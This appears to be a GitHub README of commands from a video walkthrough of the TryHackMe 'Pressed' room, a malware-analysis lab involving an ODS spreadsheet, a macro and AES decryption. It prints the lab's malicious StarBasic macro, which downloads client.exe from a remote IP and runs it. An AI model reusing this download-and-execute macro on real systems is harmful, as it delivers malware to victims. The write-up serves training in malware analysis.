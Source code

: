 ## TryHackMe room Pressed https://tryhackme.com/room/pressedroom

### TryHackMe Pressed YouTube Video Walk Through: 

[TryHackMe Pressed Full Walkthrough 2025](https://youtu.be/CGBwiBXQNq4)

**Below commands used on TryHackMe room Pressed YouTube video walk through:**

```
cat sheet.txt | base64 -d > sheet.ods
```
```
unzip sheet.ods
cat Basic/Standard/evil.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="evil" script:language="StarBasic" script:moduleType="normal">Sub Main

    Shell(&quot;cmd /c curl 10[.]13[.]44[.]207/client.exe -o C:\ProgramData\client.exe&quot;)
    Shell(&quot;cmd /c echo VEhN******F5Xw==&quot;)
    Shell(&quot;C:\\ProgramData\\client.exe&quot;)
```

convert text to hex:

```
echo -n 'rhI1Yaz****Ivl8ps6MJj' | xxd -p
```

Using openssl to decrypt aes

```
openssl enc -aes-256-cbc -d -K 726849315961******149766c387073364d4a6a -iv 70457738****34736a -in cmd.bin -out cmd.txt
```

![Ghidra Main Function Showcasing the Key](https://github.com/djalilayed/tryhackme/blob/main/Pressed/Ghidra_main.png)
